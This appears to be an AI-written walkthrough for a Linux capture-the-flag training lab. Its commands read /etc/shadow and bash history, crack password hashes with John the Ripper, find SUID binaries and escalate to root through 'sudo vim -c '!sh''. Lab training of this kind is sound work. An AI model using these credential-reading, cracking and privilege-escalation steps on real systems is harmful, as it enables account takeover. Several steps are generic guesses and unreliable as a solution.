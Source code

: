 This **Scavenger Hunt CTF** challenge is designed to test your **Linux forensics, privilege escalation, and security analysis skills**. Below is a **step-by-step guide** to help you and your team complete each flag.  

---

## **🚀 Step 1: Start the VM and Log In**
### **Start the Virtual Machine:**
1. Open the terminal and run:  
   ```bash
   sudo /home/sysadmin/Documents/scavenger-hunt/scavenger-hunt-start.sh
   ```
2. Select **option 1** to start the server.
3. Wait for the installation to complete.
4. SSH into the VM:
   ```bash
   ssh student@192.168.200.105
   ```
5. Enter the password:  
   ```
   Goodluck!
   ```

---

# **🏆 Flag Walkthrough**
## **🏁 Flag 1: Find the Leaked Password File**
**Hint:** "It doesn't have a great hiding spot" suggests it may be in a commonly used **system directory**.

🔹 **Check for readable files related to passwords:**
```bash
find / -name "*password*" 2>/dev/null
```
🔹 **Common password locations:**  
```bash
cat /etc/passwd  
cat /etc/shadow  
cat ~/.bash_history  
```
🔹 **If it's a hidden file, check home directories:**
```bash
ls -la /home/student
```
🔹 **Look for world-readable files:**
```bash
find / -type f -readable 2>/dev/null | grep "password"
```
💡 **Write down any passwords you find.**

---

## **🏁 Flag 2: Find and Crack a Hacker’s Password**
🔹 **List users and find the hacker's account:**
```bash
cat /etc/passwd | grep bash
```
🔹 **Check for a hashed password in `/etc/shadow`:**
```bash
sudo cat /etc/shadow | grep <hacker-username>
```
🔹 **Crack the password using `john` (John the Ripper):**
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /etc/shadow
```
🔹 **Log in as the user once cracked:**
```bash
su - <hacker-username>
```

---

## **🏁 Flag 3: Analyze Log Files & Find a Zip**
🔹 **Find log files related to the hacker's name:**
```bash
find /var/log -type f -name "*.log" 2>/dev/null
```
🔹 **Find zip files:**
```bash
find / -type f -name "*.zip" 2>/dev/null
```
🔹 **Unzip the file and analyze it:**
```bash
unzip <filename>.zip
cat <unzipped_file>
```
🔹 **Find unique IPs in the log file:**
```bash
cat <logfile> | awk '{print $1}' | sort | uniq | wc -l
```
💡 **The number of unique IPs is the password!**

---

## **🏁 Flag 4: Find a Restricted File in a Hackers Directory**
🔹 **Find a list of hackers:**
```bash
find / -type d -name "hackers" 2>/dev/null
```
🔹 **Find the file with special permissions:**
```bash
find / -type f -perm 100
```
🔹 **Read the flag file:**
```bash
cat <filename>
```

---

## **🏁 Flag 5: Debug a Bash Script**
🔹 **Find user scripts:**
```bash
find /home -type f -name "*.sh"
```
🔹 **Check if it's executable:**
```bash
ls -l <script.sh>
```
🔹 **If not, give execute permission:**
```bash
chmod +x <script.sh>
```
🔹 **Run it with debugging mode:**
```bash
bash -x <script.sh>
```
🔹 **Fix any errors and re-run it to get the flag.**

---

## **🏁 Flag 6: Inspect Aliases**
🔹 **Check for user aliases:**
```bash
alias
cat ~/.bashrc | grep alias
```
🔹 **Find and execute the suspicious alias:**
```bash
<alias_name>
```

---

## **🏁 Flag 7: Exploit & Gain Root**
🔹 **Find SUID binaries that can be exploited:**
```bash
find / -perm -4000 2>/dev/null
```
🔹 **Check if any binary allows privilege escalation:**
```bash
sudo -l
```
🔹 **If `vim` is listed, escalate privileges:**
```bash
sudo vim -c '!sh'
```
🔹 **If there's a vulnerable program, compile an exploit:**
```bash
gcc exploit.c -o exploit
./exploit
```
🔹 **Switch to root:**
```bash
su root
```
🔹 **Find root's flag:**
```bash
cat /root/root.txt
```

---

## **🏁 Flag 8: Combine All Flags & Crack the Password**
🔹 **Save all flags in a file:**
```bash
echo "flag_1:xxxxx" > all_flags.txt
echo "flag_2:xxxxx" >> all_flags.txt
...
```
🔹 **Use `john` to crack them:**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt all_flags.txt
```
🔹 **The final cracked flag is the answer! 🎯**

---

# **🎯 Bonus Challenges**
✅ **Use `hydra` to brute-force services**  
✅ **Find hidden directories with `dirb`**  
✅ **Exploit a vulnerable cron job**  

Would you like a **write-up template** for your findings? 🚀